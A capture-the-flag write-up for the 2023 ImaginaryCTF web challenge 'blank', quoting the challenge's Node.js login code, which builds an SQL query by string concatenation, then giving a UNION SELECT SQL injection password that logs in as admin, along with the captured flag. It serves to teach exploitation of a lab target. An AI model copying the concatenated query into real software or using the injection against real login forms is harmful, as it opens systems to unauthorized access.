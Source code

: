 ```yaml
---
title: 2023 ImaginaryCTF - blank
author: thanguyen165
date: 2023-07-23 00:00:00 +0700
categories: [Write-ups, 2023_imaginaryCTF]
tags: [Web Exploitation, write-ups]
---
```


* Points: 100

## Description

> I asked ChatGPT to make me a website. It refused to make it vulnerable so I added a little something to make it interesting. I might have forgotten something though...

### Attached

[blank_dist](https://imaginaryctf.org/r/FVauo#blank_dist.zip)

## Analyzation

Check the ```app.js```, these are important lines

```js
app.get('/flag', (req, res) => {
  if (req.session.username == "admin") {
    res.send('Welcome admin. The flag is ' + fs.readFileSync('flag.txt', 'utf8'));
  }
  else if (req.session.loggedIn) {
    res.status(401).send('You must be admin to get the flag.');
  } else {
    res.status(401).send('Unauthorized. Please login first.');
  }
});
```

```js
app.post('/login', (req, res) => {
  const username = req.body.username;
  const password = req.body.password;

  db.get('SELECT * FROM users WHERE username = "' + username + '" and password = "' + password+ '"', (err, row) => {
    if (err) {
      console.error(err);
      res.status(500).send('Error retrieving user');
    } else {
      if (row) {
        req.session.loggedIn = true;
        req.session.username = username;
        res.send('Login successful!');
      } else {
        res.status(401).send('Invalid username or password');
      }
    }
  });
});
```

So, username must be "admin", and we need to bypass the password checker.

## Solution

```
Username = admin 
Password = " UNION SELECT 1337,"junk","junk" -- 
```

Password values can be anything, but UNION requires same argument count and same types (or just NULL values)

The flag is
```
ictf{sqli_too_powerful_9b36140a}

```